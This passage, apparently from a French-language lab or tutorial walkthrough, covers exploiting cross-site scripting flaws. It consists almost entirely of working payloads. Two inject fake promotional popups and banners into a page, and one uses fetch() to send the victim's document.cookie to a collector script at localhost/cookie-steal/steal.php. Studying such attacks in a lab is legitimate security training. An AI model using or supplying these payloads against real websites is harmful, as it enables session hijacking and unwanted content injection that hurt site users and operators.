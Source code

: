 ## Étape 2 : Exploitation des vulnérabilités XSS pour afficher publicité

```js
// Payload 1 - Popup publicitaire :
<script>alert('🎉 PROMO EXCEPTIONNELLE ! -50% sur tous les produits ! Cliquez OK pour en profiter !');</script>

// Payload 2 - Bannière publicitaire :
<div style="position:fixed;top:0;left:0;width:100%;background:red;color:white;text-align:center;z-index:9999;padding:10px;">🔥 OFFRE LIMITÉE ! Visitez www.promo-site.com 🔥</div>
```
## Étape 3 : Exploitation des vulnérabilités XSS pour voler des cookies
```js
// Payload 2 - Envoi vers serveur malveillant :
<script>fetch('http://localhost/cookie-steal/steal.php?cookie=' + encodeURIComponent(document.cookie));</script>
```
